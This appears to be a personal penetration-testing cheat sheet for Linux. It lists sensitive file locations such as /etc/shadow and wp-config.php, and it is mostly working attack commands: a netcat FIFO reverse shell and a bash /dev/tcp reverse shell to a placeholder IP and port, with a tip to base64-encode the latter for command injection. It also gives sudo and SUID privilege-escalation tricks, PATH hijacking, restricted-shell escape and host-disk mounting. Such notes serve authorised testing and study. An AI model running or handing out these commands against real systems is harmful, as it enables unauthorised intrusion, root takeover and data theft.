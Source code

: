 # Linux

## Important files (Default Location)

```
/etc/passwd
/etc/group
/etc/shadow
/var/www/html/
/var/www/
/tmp/
/home/
/var/log/nginx/access.log
/var/log/apache/access.log
/var/log/auth.log
/etc/apache2/sites-available/000-default.conf
/etc/samba/smb.conf
/var/www/html/wordpress/wp-config.php
/etc/fstab
/var/log/cron.log
/etc/tomcat9/tomcat-users.xml
/usr/share/tomcat9/etc/tomcat-users.xml
```

### PrivEsc

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP_ADDR] [PORT] >/tmp/f
sudo -l   # /etc/sudoers
-----------------
(root) SETENV: NOPASSWD: /opt/cleanup.sh
# have the ability to set environment, therefore create a bash binary in the pwd and:
sudo PATH=$PWD:$PATH /opt/cleanup.sh
-----------------
find / -perm -4000 2>/dev/null    # file with suid
find / -type f -writable 2>/dev/null
sudo -u#-1 /bin/bash
```

### Reverse Shell

```
echo "bash -i >& /dev/tcp/[IP_ADDR]/[PORT] 0>&1" |bash    # base64 encode the echo cmd; use for os command injection (api)
```

### Not So Important But May Be Useful (Default Location)

```
/proc/cpuinfo
```

### PATH & Restricted Shell

```
export PATH=/tmp:$PATH
ssh alfred@10.11.1.101 -t "bash --noprofile"
```

### Docker

```shell
docker images
docker build -t [image-name] [Dockerfile location]    # building a docker image from the image file
docker run [image-name]   # running the docker image
---------------Mount SDA1----------------
fdisk -l
mkdir -p /mnt/tmpp
mount /dev/sda1 /mnt/tmpp
```

### Network & Firewall rules

```
iptables -L
cat /etc/sysconfig/iptables
cat /etc/resolv.conf
```
